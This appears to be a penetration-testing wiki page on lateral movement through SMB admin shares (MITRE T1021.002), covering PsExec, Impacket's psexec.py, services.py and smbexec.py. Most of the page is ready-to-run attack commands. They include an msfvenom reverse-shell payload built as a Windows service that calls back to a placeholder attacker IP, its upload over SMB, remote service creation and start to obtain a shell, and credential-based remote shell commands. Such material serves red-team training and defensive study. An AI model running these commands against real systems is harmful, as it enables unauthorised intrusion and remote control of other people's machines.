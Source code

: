 ```yaml
---
description: 'MITRE ATT&CK™ Remote Services: SMB/Windows Admin Shares - Technique T1021.002'
---
```


# SMB-based

## Theory

[SMB Protocol](../delivery/protocols/smb.md) can be abuse by attackers to execute remote code and perform lateral movements.

## Practice

### PsExec

Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), It connect to the $ADMIN shares with SMB and upload a service binary. Psexec uses psexesvc.exe as the name. Then it connect to the service control manager to create and run a service named PSEXESVC associated with the previous binary. Finally Psexec create some named pipes to handle stdin/stdout/stderr.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
psexec.py username:password@10.10.10.10 cmd.exe
```

We may manually replicate techniques use by PsExec with [service.py](https://github.com/fortra/impacket/blob/master/examples/services.py) from impacket

```bash
# Create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py WORKGROUP/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py WORKGROUP/<user>@<TARGET> start -name shell-svc
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) from Windows Sysinternals tools

```powershell
#Run PsExec
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
{% endtab %}
{% endtabs %}

### SmbExec

SmbExec is an [Impacket](https://github.com/fortra/impacket) script that works similarly to PsExec without using RemComSvc. The main difference is that smbexec avoids transferring a potentially detectable binary to the target site. Instead, it lives completely off the land by running the local Windows command shell. \
implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine **does NOT have a writeable share** available.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
#Semi-interactive shell (doesn't need writable share on the target)
smbexec.py <domain>/<username>:<password>@<host>
```
{% endtab %}
{% endtabs %}

